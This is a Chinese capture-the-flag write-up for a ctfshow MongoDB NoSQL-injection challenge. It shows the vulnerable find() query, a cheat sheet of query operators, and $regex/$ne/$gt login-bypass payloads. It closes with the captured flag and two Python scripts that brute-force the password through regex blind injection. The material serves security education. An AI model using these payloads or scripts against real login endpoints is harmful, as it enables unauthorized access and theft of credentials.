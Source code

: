 # ctfshow-sql253



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623

郁离歌大佬 https://blog.csdn.net/like98k/article/details/79436463

sql常见方法及udf提权   https://blog.csdn.net/qq_43645782/article/details/105468416

bit  https://www.xl-bit.cn/index.php/archives/93/





 查询语句 

```
  //sql
  db.ctfshow_user.find({username:'$username',password:'$password'}).pretty()
```



 返回逻辑 

```
  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
      

```



```sql
补充一下nosql注入笔记
http://rui0.cn/archives/609
https://www.anquanke.com/post/id/97211





$gt : >
$lt : <
$gte: >=
$lte: <=
$ne : !=、<>
$in : in
$nin: not in
$all: all 
$or:or
$not: 反匹配(1.3.3及以上版本)
模糊查询用正则式：db.customer.find({'name': {'$regex':'.*s.*'} })
/**
* : 范围查询 { "age" : { "$gte" : 2 , "$lte" : 21}}
* : $ne { "age" : { "$ne" : 23}}
* : $lt { "age" : { "$lt" : 23}}
*/


//查询age = 22的记录
db.userInfo.find({"age": 22});
//相当于：select * from userInfo where age = 22;
//查询age > 22的记录
db.userInfo.find({age: {$gt: 22}});
//相当于：select * from userInfo where age > 22;



mongodb的find().pretty()方法的作用。
使得查询出来的数据在命令行中更加美观的显示，不至于太紧凑。


脑洞 username 是 flag，username[$regex]=flag&password[$ne]=1 可以登录成功，写个脚本正则布尔盲注密码
其实就是爆破password 得到的就是flag
username[$regex]=flag&password[$gt]=1
登录成功
{"code":0,"msg":"\u767b\u9646\u6210\u529f","count":1,"data":[]}

ctfshow{fd1512cd-8341-4902-9b9d-737f34d7d8a9}
下面是两个脚本 原理都是一样
```



```python
import requests

url="http://32366c2c-4d19-473f-a732-32c69a561891.challenge.ctf.show/api/"

flag=""

for i in range(1,100):
    for j in "{-abcdefghijklmnopqrstuvwxyz0123456789}":
        payload="^{}.*$".format(flag+j)
        data={
            'username[$regex]':'flag',
            'password[$regex]':payload
        }
        r=requests.post(url=url,data=data)
        if r"\u767b\u9646\u6210\u529f" in r.text:
            flag+=j
            print(flag)
            if j=="}":
                exit()
            break
```



```python
import string
import requests

url = "http://32366c2c-4d19-473f-a732-32c69a561891.challenge.ctf.show/api/"

letters = "{}-_" + string.ascii_lowercase + string.digits


def valid_pass(password: str) -> bool:
    data = {
        "username[$regex]": "flag",
        "password[$regex]": f"{password}.*"
    }
    response = requests.post(url, data=data)
    return "登陆成功" in response.json()["msg"]


result = ""

while True:
    for letter in letters:
        if valid_pass(result + letter):
            result += letter
            print(f"[*] result: {result}")
            break
```



















